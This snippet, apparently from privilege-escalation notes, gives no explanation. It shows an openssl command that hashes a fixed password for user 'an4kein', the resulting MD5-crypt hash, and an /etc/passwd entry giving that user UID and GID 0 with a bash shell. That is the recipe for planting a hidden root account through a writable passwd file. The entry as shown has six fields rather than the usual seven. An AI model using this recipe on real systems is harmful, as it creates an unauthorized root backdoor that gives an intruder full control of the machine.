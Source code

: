 
`openssl passwd -1 -salt an4kein 1337`

`$1$an4kein$KpVTAUsL0SO0N532qSXyf.`

`an4kein:$1$an4kein$KpVTAUsL0SO0N532qSXyf.:0:0:/root/root:/bin/bash`
